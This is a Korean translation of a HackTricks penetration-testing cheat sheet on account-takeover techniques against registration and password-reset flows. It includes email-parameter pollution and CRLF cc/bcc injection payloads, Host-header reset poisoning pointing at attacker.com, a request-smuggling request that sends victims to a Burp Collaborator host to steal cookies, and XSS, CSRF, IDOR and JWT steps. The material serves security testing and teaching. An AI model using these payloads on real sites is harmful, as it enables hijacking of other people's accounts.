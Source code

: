 # 등록 및 인수 취약점

{{#include ../banners/hacktricks-training.md}}

## 등록 인수

### 중복 등록

- 기존 사용자 이름을 사용하여 생성해 보세요.
- 이메일을 다양하게 변경해 보세요:
- 대문자
- \+1@
- 이메일에 점 추가
- 이메일 이름에 특수 문자 (%00, %09, %20)
- 이메일 뒤에 검은 문자 추가: `test@test.com a`
- victim@gmail.com@attacker.com
- victim@attacker.com@gmail.com

### 사용자 이름 열거

애플리케이션 내에서 사용자 이름이 이미 등록되었는지 확인해 보세요.

### 비밀번호 정책

사용자를 생성할 때 비밀번호 정책을 확인하세요 (약한 비밀번호를 사용할 수 있는지 확인).\
이 경우 자격 증명을 무차별 대입해 볼 수 있습니다.

### SQL 인젝션

[**이 페이지를 확인하세요** ](sql-injection/index.html#insert-statement)계정 인수를 시도하거나 **SQL 인젝션**을 통해 정보를 추출하는 방법을 배우세요.

### Oauth 인수

{{#ref}}
oauth-to-account-takeover.md
{{#endref}}

### SAML 취약점

{{#ref}}
saml-attacks/
{{#endref}}

### 이메일 변경

등록 후 이메일을 변경해 보고 이 변경이 올바르게 검증되는지 또는 임의의 이메일로 변경할 수 있는지 확인하세요.

### 추가 확인 사항

- **일회용 이메일** 사용 여부 확인
- **긴** **비밀번호** (>200)는 **DoS**로 이어짐
- **계정 생성에 대한 비율 제한 확인**
- username@**burp_collab**.net을 사용하고 **콜백**을 분석하세요.

## **비밀번호 재설정 인수**

### 참조자를 통한 비밀번호 재설정 토큰 유출 <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. 귀하의 이메일 주소로 비밀번호 재설정을 요청하세요.
2. 비밀번호 재설정 링크를 클릭하세요.
3. 비밀번호를 변경하지 마세요.
4. 3자 웹사이트(예: Facebook, Twitter)를 클릭하세요.
5. Burp Suite 프록시에서 요청을 가로채세요.
6. referer 헤더가 비밀번호 재설정 토큰을 유출하는지 확인하세요.

### 비밀번호 재설정 중독 <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Burp Suite에서 비밀번호 재설정 요청을 가로채세요.
2. Burp Suite에서 다음 헤더를 추가하거나 수정하세요: `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. 수정된 헤더로 요청을 전달하세요.\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. _host 헤더_를 기반으로 한 비밀번호 재설정 URL을 찾으세요: `https://attacker.com/reset-password.php?token=TOKEN`

### 이메일 매개변수를 통한 비밀번호 재설정 <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```bash
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR on API Parameters <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. 공격자는 자신의 계정으로 로그인하고 **비밀번호 변경** 기능으로 이동해야 합니다.
2. Burp Suite를 시작하고 요청을 가로챕니다.
3. 반복기 탭으로 보내고 매개변수를 편집합니다: 사용자 ID/이메일\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Weak Password Reset Token <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

비밀번호 재설정 토큰은 매번 무작위로 생성되고 고유해야 합니다.\
토큰이 만료되는지 또는 항상 동일한지 확인하십시오. 경우에 따라 생성 알고리즘이 약하고 추측할 수 있습니다. 알고리즘에서 사용될 수 있는 변수는 다음과 같습니다.

- 타임스탬프
- 사용자 ID
- 사용자 이메일
- 이름 및 성
- 생년월일
- 암호화
- 숫자만
- 작은 토큰 시퀀스 (문자 \[A-Z,a-z,0-9] 사이)
- 토큰 재사용
- 토큰 만료 날짜

### Leaking Password Reset Token <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. 특정 이메일을 사용하여 API/UI를 통해 비밀번호 재설정 요청을 트리거합니다. 예: test@mail.com
2. 서버 응답을 검사하고 `resetToken`을 확인합니다.
3. 그런 다음 URL에서 토큰을 사용합니다. 예: `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Password Reset Via Username Collision <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. 피해자의 사용자 이름과 동일한 사용자 이름으로 시스템에 등록하되, 사용자 이름 앞뒤에 공백을 삽입합니다. 예: `"admin "`
2. 악의적인 사용자 이름으로 비밀번호 재설정을 요청합니다.
3. 이메일로 전송된 토큰을 사용하여 피해자의 비밀번호를 재설정합니다.
4. 새 비밀번호로 피해자 계정에 연결합니다.

플랫폼 CTFd는 이 공격에 취약했습니다.\
참조: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Account Takeover Via Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. 애플리케이션 또는 서브도메인 내에서 XSS를 찾습니다. 쿠키가 상위 도메인에 범위가 지정된 경우: `*.domain.com`
2. 현재 **세션 쿠키**를 유출합니다.
3. 쿠키를 사용하여 사용자로 인증합니다.

### Account Takeover Via HTTP Request Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. **smuggler**를 사용하여 HTTP 요청 밀수의 유형 (CL, TE, CL.TE)을 감지합니다.\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. 다음 데이터를 사용하여 `POST / HTTP/1.1`를 덮어쓸 요청을 작성합니다:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` 피해자를 burpcollab로 리디렉션하고 쿠키를 훔치는 것이 목표입니다.\
3\. 최종 요청은 다음과 같을 수 있습니다.
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone 보고서에서 이 버그를 악용한 사례\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### CSRF를 통한 계정 탈취 <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. CSRF를 위한 페이로드 생성, 예: “비밀번호 변경을 위한 자동 제출 HTML 양식”
2. 페이로드 전송

### JWT를 통한 계정 탈취 <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token은 사용자를 인증하는 데 사용될 수 있습니다.

- 다른 사용자 ID / 이메일로 JWT 수정
- 약한 JWT 서명 확인

{{#ref}}
hacking-jwt-json-web-tokens.md
{{#endref}}

## 참고 문헌

- [https://salmonsec.com/cheatsheet/account_takeover](https://salmonsec.com/cheatsheet/account_takeover)

{{#include ../banners/hacktricks-training.md}}
